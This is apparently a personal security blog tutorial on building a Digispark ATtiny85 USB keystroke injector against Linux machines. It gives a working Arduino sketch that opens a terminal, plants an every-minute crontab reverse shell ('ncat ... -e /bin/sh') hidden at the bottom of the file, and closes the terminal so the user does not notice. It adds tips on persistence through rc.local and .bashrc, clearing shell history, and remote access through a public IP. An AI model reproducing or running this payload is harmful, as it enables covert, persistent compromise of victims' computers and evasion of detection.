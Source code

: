 ```yaml
---
layout: page
title: USB Keyboard Injectors
subtitle: Using the Digispark Attiny 85
permalink: /usb_injectors/
---
```


# Introduction
If you are unaware of what USB injectors are they essentially act as a keyboard with pre-programmed instructions. These instructions act as normal keystrokes that you would see from any other keyboard, it just stores what you want to type out and does so automatically when the USB is plugged in. This is very useful because a keyboard is implicitly trusted and there are a number of shortucts that can be used to reach a command prompt / shell, run dialog, or anything else that can be used to compromise a machine.<br><br>
On top of this, a study conducted by the Department of Homeland Security years ago showed that, situation dependant, <a href="https://www.computerworld.com/article/2510014/government-tests-show-security-s-people-problem.html" target="_blank" rel="noopener noreferrer">over 50% of people that picked up the USBs plugged them in to their computers</a>. These numbers increase when the USBs have official looking logos and decrease with proper education / security awareness. Even if the number today is only half what is was back then it remains a concerning statistic, but great for those trying to use people to compromise a machine or network. Malicious USBs can be absolutely devastating to a network, just look at what happened in Iran with Stuxnet (of which the U.S. was 100%, absolutely, unquestionably in _no way_ involved). I trust you'll pick up on that.
<br><br>
As mentioned, this page will cover the <a href="http://digistump.com/products/1" target="_blank" rel="noopener noreferrer">Digispark Attiny 85</a>, pictured below.<br>
<p align="center"><img width="300" src="/assets/malicious_usbs/digiattiny85.jpg"></p>
These scripts can be installed on the Digispark boards through the Arduino IDE, which can be downloaded from <a href="https://www.arduino.cc/en/software" target="_blank" rel="noopener noreferrer">here</a>. I'm not going to cover the exact installation process because whether you go the Windows or Linux route it's going to be a pain, and there are more than enough tutorials already out there that cover the process. If you go the Linux route you'll need to configure udev rules for your system (reference <a href="https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/" target="_blank" rel="noopener noreferrer">here</a>) or install the correct drivers if you go the Windows route (start <a href="https://github.com/digistump/DigistumpArduino/releases" target="_blank" rel="noopener noreferrer">here</a>).
<br><br><br>

# Example: Configuring the crontab to install a reverse shell
The script I wrote can be found in its entirety <a href="https://raw.githubusercontent.com/fe-moldark/wesleykent-website/gh-pages/assets/malicious_usbs/reverse_shell_crontab.ino" target="_blank" rel="noopener noreferrer">here</a>, and before you actually try to write this to the Digispark board you will need to edit the IDE's preferences tab to install the Digispark library and then from the boards manager as well on the IDE - again, there are a million tutorials for this.
<br><br>
Excluding defining a few keys in the beginning the script takes place almost entirely in the `void loop()`, which I will now go over. This section below will press the key combination "CTRL+ALT+T", which on Ubuntu (and other linux distros) will open up a console. From there the I entered in `crontab -e` which will allow us to edit the crontab in the next step. Here is what that looks like:
<br>
```scala
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT); //start the shell
  DigiKeyboard.delay(600);
  DigiKeyboard.print("crontab -e");
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
<br>
This next section is necessary because of an unknown factor, which is whether or not the user has configured their crontab before. If a user has already done so then the above `crontab -e` will bring them straight to editing. If they have not, however, there will first be a prompt to select a text editor to use (e.g. nano, vim, etc) and only then will you be forwarded to it. Since one can't know this, the script assumes that the crontab has _not_ been configured and enters in the proper keystrokes to get you there. If it already has been configured then you will needlessly enter in a "1" to what would have selected the editor and then the "ENTER" key, which is then erased by two quick backspace keystrokes. What that looks like is as follows:
```scala
  //In case no crontab has been installed
  DigiKeyboard.print("1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.delay(700);
```
<br>
These next few lines will navigate far down to the bottom of the crontab in an attempt to hide the reverse shell command at first glance:
```scala
  //punch down to the very bottom to hide the following command
  for (int i=0;i<45;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
```
<br>
Now to actually write the reverse shell command into the crontab. The five asterisks indicate this script will run every minute of every hour of every day. If you wanted to have this only execute at a particular time of day you could designate e.g. every Wednesday at 6:15PM instead.<br>
```scala
  DigiKeyboard.print("* * * * * ncat 192.168.11.59 4444 -e /bin/sh"); //this will need to be customized to your local IP and port
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
Note: It might be worth it to install two separate commands, one with `ncat` and the other with `nc` since only one of those might be installed on the machine. You will also need to configure your own IP address into this command.<br><br>
After installing that cronjob the following keytrokes will exit the crontab with "CTRL+X" and then save the changes with "Y" and "ENTER"" to confirm.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_X , MOD_CONTROL_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_Y);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
```
<br>
The last command, "CTRL+SHIFT+Q" will close out the shell so no one is aware of what just happened.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_Q , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT); //close out the terminal
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*empty*/
  }

}
```

To receive the shell on your local host all that is needed is a netcat listener open on the right IP address and corresponding port:
<p align="center"><img width="850" src="/assets/malicious_usbs/nc listener.png"></p>
The shell we initially recieve is not very stable or powerful. For example, when I tried to switch users in the first shell that was provided the prompt for the password appeared on the target machine instead of my own, and there were a number of other commands that similarly did not work. Now there are several ways to upgrade the shell, some of which I covered on [this](/tipsandtricks/privilegeescalation/) page. Perl was either not installed on this machine or did not work, and same with Python. Python3, however, was installed and I could upgrade the shell as seen with the following command:<br>
<p align="center"><img width="625" src="/assets/malicious_usbs/upgrade shell.png"></p><br>
From there you can install more scripts to further enumerate and exploit the machine, and install more malware to grant you backdoor access in the event that the crontab command is discovered and removed, perhaps that user account is deleted entirely, etc.
<br><br><br>

# Final thoughts
It's worth noting that different users will have separate crontabs, but they will still execute even when not logged in. I noticed this when I first uploaded the reverse shell to a test user, completely logged out of that account to work on writing this page and the nc listener still activated later from that same cronjob.
<br><br>
This same idea of using the crontab to keep a constant reverse shell pathway open is not the only option. Since this exploit is focused on Linux you could also target the `rc.local` and `.bashrc` files to only reach out to you whenever the system boots or when a user opens a new shell. Get as creative as you want with it.
<br><br>
Another way to hide your actions before you close out the shell would be to delete the last commands you have entered from the history file, but you would only need that if you were trying to cover every possible trace. Since you will likely not always be on the same network you are trying to exploit you might want to use your Public IP address or some proxy server instead, and after configuring proper port forwarding rules you could gain access remotely from the comfort of your own home.
<br><br>
And this goes without saying but I'm going to say it anyways - don't do anything stupid with these USBs or scripts. If you do that's all on you. Cheers.
<br><br>

